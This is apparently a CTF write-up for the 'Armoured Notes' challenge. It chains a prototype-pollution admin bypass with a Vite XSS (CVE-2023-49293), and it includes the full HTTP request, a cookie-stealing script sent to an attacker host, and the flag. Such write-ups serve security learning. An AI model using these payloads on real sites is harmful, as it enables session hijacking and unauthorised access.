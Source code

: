 ### Armoured Notes

We are give source code to this app. Having a report endpoint, it has to be XSS.

After surfing through the code and trying to create a post for hours, I slept to free myself.

Then coming with a fresh mind, I took a look at the package.json and using the vitejs version `"vite": "^4.4.0"`, I googled for vitejs 4.4.0 vunerabilities and came across CVE-2023-49293.

https://nvd.nist.gov/vuln/detail/CVE-2023-49293

https://github.com/advisories/GHSA-92r3-m2mg-pj97

Reading up on it, we get that our app is vulnerable by its version and its appType set to custom. The exploit is `"></script><script>alert('boom')</script>` used as a http query param, but we needed a inline script starting with `<script type="module">` tag, since this is where the vulnerability lies.

After checking the views, we see that only post.html is vulnerable, which means we need to create a post to exploit this. We can also get a postid, but it is a 24 character hex string, so no way we are bruteforcing that.

Below is the code for the post creation: -

```js
app.post("/create", async (req, res, next) => {
    let obj = duplicate(req.body);

    if (obj.uname === "admin" && obj.pass == process.env.PASSWORD) {
      obj.isAdmin = true;
    }
    if (obj.isAdmin) {
      const newEntry = req.body;

      try {
        const result = await diaryCollection.insertOne(newEntry);
        return res.json({ code: result.insertedId });
      } catch (err) {
        console.error("Failed to insert entry", err);
        return res.status(500).json({ code: "err" });
      }
    }
    return res.json({ code: "err" });
  });
```
```js
export function duplicate(body) {
    let obj={}
    let keys = Object.keys(body);
    keys.forEach((key) => {
      if(key !== "isAdmin")
      obj[key]=body[key];
    })
    return obj;
  }
```

Going through the above code, we realize that if we even supply a "isAdmin" param during post creation, it will just be ignoredduring duplication.

>JavaScript, is a prototype-based object-oriented programming language. Each object is linked to a “prototype”. When we invoke the toString method on an object, JavaScript will first check to see if we explicitly defined the method for the given object. If we haven’t, it will look for its definition on the object’s prototype.

Reading up on prototype pollution, we realize we can supply our own "isAdmin" in the objects prototype and when the check is run, it will pass. Below is my request: -

```
POST /create HTTP/1.1
Host: 34.132.132.69:8001
User-Agent: useragent
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://34.132.132.69:8001/
Content-Type: application/json
Content-Length: 80
Origin: http://34.132.132.69:8001/
DNT: 1
Sec-GPC: 1
Connection: close

{"__proto__": {"isAdmin": true},"uname":"admin","pass":"ds","message":"my note"}
```

Using the above method, we are able to create a post and we recieve the postID.

Then we just report the postID with the exploit to send a server we control the cookie.

Reported URL: -

```
http://34.132.132.69:8001/posts/postIDxxxx/?"></script><script>document.location="https://serverwecontrol.lol/?q="+document.cookie;</script>
```

### Flag

`flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`

### Further Reading

https://learn.snyk.io/lesson/prototype-pollution/
https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks
https://medium.com/intrinsic-blog/javascript-prototype-poisoning-vulnerabilities-in-the-wild-7bc15347c96
https://portswigger.net/web-security/prototype-pollution
